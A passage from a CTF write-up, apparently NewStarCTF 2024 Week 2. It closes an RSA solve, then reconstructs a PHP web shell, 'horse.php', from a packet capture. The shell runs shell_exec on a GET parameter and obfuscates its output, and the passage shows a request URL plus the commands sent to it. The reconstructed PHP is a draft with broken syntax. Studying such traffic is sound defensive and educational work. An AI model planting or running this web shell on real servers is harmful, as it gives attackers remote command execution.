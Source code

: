 ``` pyth


c = 36513006092776816463005807690891878445084897511693065366878424579653926750135820835708001956534802873403195178517427725389634058598049226914694122804888321427912070308432512908833529417531492965615348806470164107231108504308584954154513331333004804817854315094324454847081460199485733298227480134551273155762

ans = pow(c,d,n)

print(long_to_bytes(ans))

'''
PS E:\newstarctf\疑惑> python .\solv2.py
b'flag{yihuo_yuan_lai_xian_ji_suan_liang_bian_de2333}'
'''
```

# Misc

## herta's study

![屏幕截图 2024-09-29 225031](NewStarCTF 2024 Week2 WriteUp/屏幕截图 2024-09-29 225031.png)

从 WireShark 去分析。可以得到horse.php，又从每次GET传参返回的内容进行分析得到结果。草稿如下：

``` php
<?php

    $payload=$_GET['payload'];
    $payload=shell_exec($payload);
    $bbb=create_function(
        $ns,
        $ns=base64_encode($ns);
        for($i=0;$i<strlen($ns);$i+=1){
            if($i%2==1){
                $ns[$i]=str_rot13($ns[$i]);
            }
        }
        return $ns;
    );  
    echo $bbb($payload);

?>
  

$ns,
$ns=base64_encode($ns);
for($i=0;$i    if($i%2==1){
        $ns[$i]=str_rot13($ns[$i]);
    }
}
return $ns;  


http://192.168.1.109/ezupload/upload/horse.php?payload=ren%20flag.txt%20f.txt

abcd 
echo whoami
echo 0721
echo fake{this_is_fake_falg}
echo fake{this_is_fake_falg} >> flag.txt
type flag.txt
```